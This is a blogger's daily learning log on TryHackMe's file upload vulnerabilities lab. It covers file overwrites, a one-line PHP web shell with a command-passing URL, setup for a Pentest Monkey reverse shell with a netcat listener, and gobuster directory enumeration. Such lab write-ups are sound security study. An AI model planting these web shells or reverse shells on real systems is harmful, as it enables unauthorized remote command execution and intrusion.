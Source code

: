 ```yaml
---
title: Day 23
date: 2022-05-06
layout: post.njk
tags: daily
---
```


{{ page.date.toDateString }}

Today I'm working on the [Upload Vulnerabilities](https://tryhackme.com/room/uploadvulns) module. I think really understanding how to take advantage of file upload vulnerabilities could be a huge help in finding bug bounties.

Theres a few different things you can do with file upload vulnerabilites:
- Overwriting existing files on a server
- Uploading and Executing Shells on a server
- Bypassing Client-Side filtering
- Bypassing various kinds of Server-Side filtering
- Fooling content type validation checks

## Overwriting Existing Files
The first exercise is overwriting a file. The first site has a file upload with a picture for the background. I looked at the source for the image and it was `images/mountains.jpg` so I copied a local image to have the same name `mountains.jpg` and uploaded it and got the flag.

## Remote Code Execution
The second exercise was taking advantage of an RCE. The two main options:
- Web shells
- Reverse Shells

### Web Shell
A webshell would be uploading a file with code that is the same as the backend. Then referencing it and using the URL to pass commands. For example I use Gobuster to do some directory enumeration. I see that there is a upload directory and I make the assumption that files are uploaded there. I assume the backend is running PHP.  so I upload `webshell.php` which is just:

>`<?php`
>
>    `echo system($_GET["cmd"]);`
>
>`?>`

the I use the URL `/uploads/webshell.php?cmd=id;whoami;ls` and view the page and I'll see the result of those commands being run. From here we can do anything including upgrading to a reverse shell.

### Reverse Shell
Is when you have an interactive shell in a terminal. The process for doing this is essentially the same as the webshell you take a file like [Pentest Monkey reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) that matches the backend code being used by the application and input your IP. You open a Netcat listener on the correct port using `nc -lvnp 1234`. You upload the file, then navigate to the file in your browser. This time the browser will hang but if you look back at the terminal you should have a connection.

### Practical
In this exercise I start by running Gobuster to enumerate the directories using `gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

I got the results:
>`/resources`
>
>`/assets`
>
>`/server-status`

I attempted to upload to `/resources` I did both the web shell upload and the reverse shell uploads successfully. 

This seemed like a good palce to stop today so I'll pick up the rest of this tomorrow.

